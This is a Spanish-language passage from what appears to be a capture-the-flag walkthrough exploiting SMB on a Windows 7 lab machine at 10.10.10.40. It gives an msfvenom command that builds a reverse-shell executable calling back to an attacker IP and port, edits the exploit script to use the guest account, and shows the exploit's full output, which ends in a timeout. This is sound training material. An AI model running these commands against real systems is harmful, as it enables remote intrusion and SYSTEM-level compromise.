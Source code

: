 Para poder tener éxito, es necesario generar una reverse shell por medio de la utilidad `msfvenom` con nuestra dirección IP y puerto de escucha para obtener posteriormente la shell denominada `reverseShell.exe`

```bash
  msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.11 LPORT=4564 -f exe -o reverseShell.exe
```

Para que el script de explotación funcione de manera correcta, debemos repetir el proceso que realizamos con `checker.py`, pero esta vez la modificación se realiza en el script `send_and_execute.py`.

```bash
vim send_and_execute.py
**AGREGAR guest EN LA LINEA 37
    USERNAME = 'guest'
```

Ahora que tenemos el pipe, la reverse shell generada y el script modificado, procedemos a ejecutar el script de explotación `send_and_execute.py` para cargar y ejecutar el payload.

```bash
python send_and_execute.py 10.10.10.40 reverseShell.exe 445 samr
Trying to connect to 10.10.10.40:445
Target OS: Windows 7 Professional 7601 Service Pack 1
Target is 64 bit
Got frag size: 0x10
GROOM_POOL_SIZE: 0x5030
BRIDE_TRANS_SIZE: 0xfa0
CONNECTION: 0xfffffa800472f580
SESSION: 0xfffff8a0095f3060
FLINK: 0xfffff8a008170088
InParam: 0xfffff8a00816015c
MID: 0x4203
unexpected alignment, diff: 0xf088
leak failed... try again
CONNECTION: 0xfffffa800472f580
SESSION: 0xfffff8a0095f3060
FLINK: 0xfffff8a00818c088
InParam: 0xfffff8a00817f15c
MID: 0x4303
unexpected alignment, diff: 0xc088
leak failed... try again
CONNECTION: 0xfffffa800472f580
SESSION: 0xfffff8a0095f3060
FLINK: 0xfffff8a00819b088
InParam: 0xfffff8a00819515c
MID: 0x4303
success controlling groom transaction
modify trans1 struct for arbitrary read/write
make this SMB session to be SYSTEM
overwriting session security context
Sending file AKVQL9.exe...
Opening SVCManager on 10.10.10.40.....
Creating service PTse.....
Starting service PTse.....
The NETBIOS connection with the remote host timed out.
Removing service PTse.....
ServiceExec Error on: 10.10.10.40
nca_s_proto_error
Done
```
